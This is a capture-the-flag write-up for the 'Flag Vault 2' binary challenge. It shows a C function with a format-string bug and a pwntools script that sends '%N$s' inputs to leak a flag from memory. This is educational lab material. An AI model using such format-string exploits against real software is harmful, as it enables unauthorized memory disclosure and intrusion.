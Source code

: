 ```yaml
---
title: "Flag Vault 2"
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary, we can see that it is a simple program that reads a username. The flag is read from a file but is never printed to the screen. The user's input is printed to the screen as well.

```c
void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

Ah, another classic format string vulnerability. We can use the `%s` format string to read the flag from memory. We can use the following script to read the flag:

```py
from pwn import *

binary = './pwn21'

context.log_level = 'debug'
context.binary = binary
context.endian = 'big'

for i in range(32):
    e = ELF(binary)
    r = process(binary)
    # r = remote('10.10.191.2', 1337)

    r.sendlineafter(b'Username: ', flat([
        f"%{i}$s",
    ]))

    r.interactive()
```
